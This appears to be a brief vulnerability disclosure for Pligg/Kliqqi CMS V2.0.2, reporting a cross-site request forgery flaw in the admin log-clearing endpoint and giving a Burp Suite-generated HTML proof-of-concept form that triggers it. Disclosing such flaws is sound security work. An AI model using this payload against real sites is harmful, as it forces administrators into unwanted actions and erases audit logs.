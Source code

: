 
target:https://github.com/Kliqqi-CMS/Kliqqi-CMS
version: V2.0.2

Pligg CMS V2.0.2 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/admin_log.php?clear=1

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/admin_log.php?clear=1" method="POST">
      <input type="hidden" name="clear" value="1" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

